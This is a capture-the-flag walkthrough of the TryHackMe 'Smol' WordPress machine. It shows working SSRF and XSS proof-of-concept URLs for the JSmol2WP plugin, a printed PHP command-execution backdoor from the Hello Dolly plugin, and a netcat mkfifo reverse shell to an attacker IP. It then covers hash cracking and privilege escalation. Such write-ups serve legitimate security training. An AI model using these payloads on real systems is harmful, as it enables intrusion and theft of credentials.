Smol is a medium difficulty room on TryHackMe that requires us to exploit a WordPress website and perform privilege escalation in order to grab both flags.

_Test your enumeration skills on this boot-to-root machine._

## Recon
Per usual I start with an nmap scan on the given IP to enumerate services.



I find that it is running two services, SSH on port 22 and an Apache web server on port 80.

After adding www.smol.thm to our /etc/hosts file, I take a look around the website to see if I can find anything I can leverage. It is using wordpress, which usually means it’s somehow vulnerable via plugins or other options.



After navigating the website a bit, I find a login page and try admin/password to see if anything interesting happens. It tells us that the password for admin is wrong, meaning we can use this login page to enumerate usernames with a tool like hydra. (I don’t end up doing this as we find login credentials another way)

Before I dive into that, running a gobuster directory search would prove useful so that I can potentially find other useful subdomains.



Nothing too crazy here other than the wp-admin page we’ve already seen.

## Wpscan
Running wpscan to enumerate users



After letting that run for a while, we get a list of users other than admin: gege, cavi, diego, wp, and think.

```
wpscan - url http://www.smol.thm -e vp - plugins-detection mixed - api-token API_TOKEN
```

Another Wpscan later and we find that the site is vulnerable to two things: JSmol2WP <= 1.07 — Unauthenticated Server Side Request Forgery (SSRF) and JSmol2WP <= 1.07 — Unauthenticated Cross-Site Scripting (XSS).

Using Searchsploit yielded no results so I googled them instead for a PoC.

SSRF:
```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

XSS:
```
[<http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=><script>alert(/xss/)</script>&mimetype=text/html; charset=utf-8](<http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3Cscript%3Ealert(/xss/)%3C/script%3E&mimetype=text/html;%20charset=utf-8>)
```

Using the SSRF proof of concept, we are taken to the wp-config.php page and I discover a password for the user wpuser.



Logging in, I make my way to a private “Webmaster tasks” page that suggests I should take a look at the ‘Hello Dolly’ plugin source code.



After some research it looks like this plugin is a common place for hiding a backdoor and comes preloaded with wordpress sites.

My research tells me that the Hello Dolly plugin code is in hello.php, I just need to find it.

Spinning back to the SSRF from earlier, I can try to find where it’s located.



```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```

Looking through the code, I find a base64 encoded string that resolves to:



```
if (isset($_GET[“\143\155\x64”])) { system($_GET[“\143\x6d\144”]); }
```



Using Python to print these characters translates to ‘cmd’. This may let us execute system commands on the site. I’ll try a reverse shell to see if we can access the system.

## Exploitation
I tried pentestmonkey’s php, phpexec, and a few others but the only one that seemed to work is netcat mkfifo rev shell.

```
http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.201.55.176%204444%20%3E%2Ftmp%2Ff
```



It worked! Now that I have a shell I want to see what services are running on the machine.





After a quick shell upgrade, I find a mysql service on port 3306 and login using the wpuser credentials from earlier. Dumping the wp_users table gives us 5 other logins.



Using JohnTheRipper to crack the hashes, I can only crack one for diego’s account.



Here’s our first flag under diego’s home directory.



Now I’m looking to escalate privilege and find that root flag. First I tried to see if diego could use sudo, that didn’t work. I also found no files out of place with permissions I could use. I eventually had a looksy around the other users and found an rsa pub key under think’s account.



Using think’s rsa key to ssh into his account, I find that think and gege are both in the dev group. I find a zip file under gege and use zip2john to crack it.

After unzipping the file, I search for any credentials in the config file as we found our first password there as well. We get a hold of xavi’s password.



Finally, logging into xavi’s account he has sudo privs for everthing and we can run sudo su to get root access and grab the final flag.





All done, this was a good challenge for me as I don’t have much experience with wordpress websites. Thanks to josemlwdf for the fun room and happy hacking!
